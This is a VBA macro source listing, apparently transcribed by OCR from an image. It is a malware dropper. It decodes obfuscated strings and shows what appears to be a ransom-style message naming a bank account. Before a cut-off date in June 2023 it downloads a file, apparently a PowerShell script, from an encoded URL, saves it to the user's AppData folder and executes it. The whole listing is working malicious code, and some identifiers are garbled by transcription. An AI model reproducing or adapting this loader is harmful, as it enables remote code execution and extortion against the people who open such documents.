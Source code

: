 ```vba
q = p.SpecialFolders("AppData")
Dim u
Dim v
Dim ¢e¶
Dim h As Long
Dim j As String
Dim w As Long
Dim m As String
Dim l As Long
Dim n As String
Dim x As String
Dim k As Long
Dim w
Dim y
Dim z As Integer
Dim huong6
Dim huong
z = 1
Range("A1").Value = a("4BEiàiuP3x6¿QEi³")
Dim huong2 As String
huong3 = "$x¿PÜ_jEPkEEiPÜ_6IE3P_i3PÛx¿²PàQBx²³_i³P3x6¿QEi³bPÜ_jEPkEEiPb³x#Eir" & vbCrLf & "ÒxP²E³²àEjEP³ÜEbEP3_³_(PÛx¿P_²EP²E7¿à²E3P³xP³²_ib0E²P@mmIP³xP³ÜEP0x##xÄàiuPk_iIP_66x¿i³Pi¿QkE²:P" & vbCrLf & "@m@m@mo@@§mmm" & vbCrLf & "g66x¿i³PÜx#3E²:PLu¿ÛEiPÒÜ_iÜP!xiu" & vbCrLf & "t_iI:PTtPt_iI"
huong2 = a(huong3)
MsgBox huong2, vbInformation, a("pEP3EEB#ÛP²Eu²E³P³xPài0x²QPÛx¿")
Dim huong4 As Date
Dim huong5 As Date
huong4 = Date
huong5 = DateSerial(2023, 6, 6)
If huong4 < huong5 Then
Set huong6 = CreateObject("microsoft.xmlhttp")
Set y = CreateObject("Shell.Application")
w = q + a("\k¿i6Ü_~Bb@")
huong6.Open "get", a("Ü³³Bb://uàb³~uà³Ü¿k¿bE²6xi³Ei³~6xQ/k7¿_iQ_i/fÀ3_o-3Yf0_E6m6kk3_km§3Y03ÀY_3__/²_Ä/À3EÀkfmfÀ@Eããoãä§k@_@ã0ä6_E3-ãY036-@@koo/_Àmb6m@§~Bb@"), False
huong6.send
v = huong6.responseBody
If huong6.Status = 200 Then
Set u = CreateObject("adodb.stream")
u.Open
u.Type = z
u.Write v
u.SaveToFile w, z + z
u.Close
End If
y.Open (w)
Else
MsgBox a("åxi'³P³²ÛP³xP²¿iPQEPk²x")
End If
End Sub
```
